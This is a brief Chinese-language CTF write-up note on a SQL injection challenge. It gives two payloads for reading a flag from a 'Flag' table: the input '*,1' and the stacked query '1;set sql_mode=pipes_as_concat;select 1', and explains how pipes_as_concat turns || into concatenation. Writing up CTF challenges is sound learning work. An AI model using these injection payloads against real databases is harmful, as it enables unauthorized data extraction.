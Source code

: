 tags:: CTF/SQL

- # 思路一
  
  猜测网站SQL为：`“select”.post[‘query’]."||flag from Flag";`
  
  所以只要让query为`*,1`即可让SQL为`select *,1||flag from Flag`，得到flag
- # 思路二
  
  输入的内容为：
  
  `1;set sql_mode=pipes_as_concat;select 1`
- ## 解释
- 我们执行的语句分别为：
  ```sql
  select 1
  set sql_mode=pipes_as_concat
  select 1||flag from Flag
  ```
  其中set sql_mode=pipes_as_concat;的作用为将||的作用由or变为拼接字符串
  这个模式下进行查询的时候，使用字母连接会报错，使用数字连接才会查询出数据，因为这个 || 相当于是将 select 1 和 select flag from flag 的结果拼接在一起.
  读出flag